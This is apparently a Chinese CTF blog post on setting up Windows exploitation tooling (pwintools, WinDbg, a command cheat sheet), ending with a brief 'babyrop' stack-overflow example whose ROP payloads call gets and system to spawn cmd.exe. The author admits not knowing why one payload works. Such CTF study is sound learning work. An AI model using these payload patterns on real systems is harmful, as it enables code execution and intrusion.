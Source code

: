 ```yaml
---
layout: post
title:  "Windows Pwn"
categories: Windows pwn 
tags: pwn
author: ble55ing
---
```


* content
{:toc}
## Windows Pwn 

ctf比赛中的Windwos Pwn题目愈发的多了，学一波

### Pwintools

工欲善其事，必先利其器。如果能在windows上有类似linux的调试环境那就比较舒服了。

<https://github.com/masthoon/pwintools> Windows上的pwntools

#### 安装psutil 

有人说需要安，所以就安了

<https://pypi.python.org/packages/b9/aa/b779310ee8a120b5bb90880d22e7b3869f98f7a30381a71188c6fb7ff4a6/psutil-5.2.2.win32-py2.7.exe#md5=2068931b6b2ecd9374f9fc5fe0da652f> 

#### Python for Windwos

按照pwintools官网上的介绍，需要这个，所以安一下

https://github.com/hakril/PythonForWindows> 

#### 修改request：

pwintools需求Python for Windwos版本0.4，但github上是0.5了，所以就会报错，使用Notepad++查找包中的PythonForWindows==0.4，改成==0.5（我下载的版本是0.5），就能够成功安装完成了

#### Pwintools修改

pwintools和pwntools还是有一些区别的，可以修改pwintools里的一些东西然后再重新安一下满足需求。注意要将Python27\Lib\site-packages\PWiNTOOLS-0.3-py2.7.egg删除，pwintools-master\build\lib里的文件删除，再进行setup

我的修改：

class Process中的self.debuggerpath改为了我的windbg地址

添加sendlineafter(self, delim, line)

修改recvuntil(self, delim, timeout = None,drop =False)，添加了drop

修改p32(i)和u32(i)的struct.pack('<I', i)参数由<i到<I。

#### 常用指令

```p =Process("babyrop.exe")```

```
io.spawn_debugger()
raw_input("DEBUG: ")
```

### Windbg

官网安装

<https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools> 

下载这个Download WinDbg Preview from the Microsoft Store: [WinDbg Preview](https://www.microsoft.com/store/p/windbg/9pgjgd53tn86). 

安装。我的默认安装到了G盘，注意需要去pwintools里其改一下。

#### Windbg常用命令

F5 /g 	继续执行，类似gdb的c

F8 		单步执行，类似gdb的s

F10		单步执行，类似gdb的n

lm		列出各模块的加载基址，类似于vmmap

F9/bp	下断点，如bp 0x2a1070

bl		查看所有断点，可删除

.reload	加载程序符号表

d		查看内存数据，类似gdb的x ，用法d 0x

### 一个小例子

babyrop，一个简单栈溢出

```
payload = "0" * 0xcc + 'aaaa' + p32(system) + 'cccc' + p32(cmd)
```

这样的payload就不能成功

```
payload = "0" * 0xcc + 'aaaa' 
payload += p32(gets) + p32(pecx) + p32(cmd) 
payload += p32(system) + 'bbbb' + p32(cmd)
...
io.sendline("cmd.exe")
```

这样的payload就能成功，原因不明，第一种的cmd.exe在内存中后面只有一个/x00，之后都是数据，第二种的后面全是/x00

第一篇文章，存疑

